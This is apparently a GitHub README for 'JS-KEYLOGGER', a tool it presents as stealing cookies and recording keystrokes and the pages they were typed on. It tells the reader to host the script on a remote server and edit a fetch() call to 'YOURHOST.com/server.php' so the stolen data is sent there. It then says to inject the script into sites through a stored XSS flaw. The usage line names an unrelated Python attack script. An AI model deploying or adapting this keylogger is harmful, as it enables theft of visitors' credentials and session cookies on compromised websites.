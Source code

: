 # JS-KEYLOGGER
 JS-Keylogger monitoring url and stealing cookie and more keys

![js](https://img.shields.io/badge/Language-JS-blue?style=for-the-badge&logo=javascript)
![PHP](https://img.shields.io/badge/Language-PHP-blue?style=for-the-badge&logo=php)
<img alt="logo" align="left" width="300" height="300" src="https://github.com/K3rnel-Dev/JS-KEYLOGGER/blob/main/img/logo.png">
<h1>JS-KEYLOGGER</h1>

### JS-KEYLOGGER ABOUT
> EN:
> Javascript keylogger supports cookie stilling and url monitoring
> from which the keys were pressed
> RU:
> Javascript кейлоггер для записывания клавиш поддерживает стиллинг куки и мониторинг url
> с которого были нажаты клавиши
</br>

<img alt="screen" align="center" src="https://github.com/K3rnel-Dev/LOCAL-ATTACK/blob/main/img/meme.jpg">



#### How to f#ck!ng using this???
```
1) You must have a remote server to run both scripts,before that, you can set server.php and > keylogger.js on your remote server.
2) Change the file keylogger.js following lines on your host:
```
```php
10 fetch('http://YOURHOST.com/server.php', {
```
```
3) If you can founded the vulnerable STORED XSS you can be put your remote js and
> sniffing keystrokes on site, the recorded keys will be in your remote server in the   >keylog.txt file.
```

## Usage
```shell
sudo python3 LTT_ATTACK.py
```

## 0xTHX
Thanks for watching:D
